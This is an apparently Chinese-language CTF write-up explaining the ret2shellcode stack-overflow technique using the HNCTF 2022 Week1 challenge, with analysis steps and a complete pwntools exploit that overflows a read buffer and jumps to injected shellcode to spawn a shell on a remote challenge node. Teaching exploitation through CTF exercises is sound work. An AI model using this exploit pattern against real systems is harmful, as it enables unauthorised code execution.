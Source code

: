 ```yaml
---
stas: true
comment: True
---
```


# 栈溢出漏洞

## ret2shellcode

### 原理

控制程序执行 shellcode 代码，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

### 例子

以[HNCTF 2022 Week1]ret2shellcode为例，先**checksec**一下

![ret2shellcode-checksec](./assets/ret2shellcode-checksec.png)

开了NX，丢入IDA分析

![ret2shellcode-main](./assets/ret2shellcode-main.png)

看到函数**mprotect**把内存变得可写，可执行，然后输入**s**，把**s**复制给**buff**。函数**read**存在栈溢出漏洞，偏移量为**0x100**。所以我们只要栈溢出传入**shellcode**使**buff**执行这个**shellcode**即可

exploit:

~~~python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')

p = remote("node5.anna.nssctf.cn","28975")

shellcode = asm(shellcraft.sh())
buff_bss_addr = 0x4040A0

payload = shellcode.ljust(0x100,b"a") + p64(0) + p64(buff_bss_addr)

p.sendline(payload)
p.interactive()
~~~
